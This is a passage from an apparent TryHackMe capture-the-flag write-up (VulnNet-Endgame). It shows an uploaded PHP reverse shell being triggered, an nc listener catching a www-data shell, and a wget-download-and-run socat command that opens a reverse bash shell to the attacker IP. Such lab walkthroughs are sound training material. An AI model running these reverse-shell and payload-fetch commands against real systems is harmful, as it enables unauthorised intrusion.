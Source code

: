 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-Endgame/images/a20.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-Endgame/images/a21.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-Endgame/images/a22.png)

Now the PHP reverse shell has been **uploaded to `admin1.vulnnet.thm/fileadmin/user_upload/revshell.php`.**

- Setup a `nc` listener, and trigger the reverse shell:

**Setup a `nc` listener:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# nc -lnvp 443     
listening on [any] 443 ...
```

**Trigger the reverse shell:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Vulnnet-Endgame]
└─# curl http://admin1.vulnnet.thm/fileadmin/user_upload/revshell.php
```

**Received reverse shell connection:**
```
[...]                        
listening on [any] 443 ...
connect to [10.18.61.134] from (UNKNOWN) [10.10.214.82] 51938
Linux vulnnet-endgame 5.4.0-120-generic #136~18.04.1-Ubuntu SMP Fri Jun 10 18:00:44 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 21:29:56 up 15 min,  0 users,  load average: 0.01, 0.08, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@vulnnet-endgame:/var/www/html/admin1/fileadmin/user_upload$ 
```

I'm `www-data`!

**Let's stable our reverse shell via `socat`**, so we won't accidentally exit it when we press `Ctrl+C`.

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
[...]
```

```
www-data@vulnnet-endgame:/var/www/html/admin1/fileadmin/user_upload$ wget http://10.18.61.134/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.18.61.134:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```
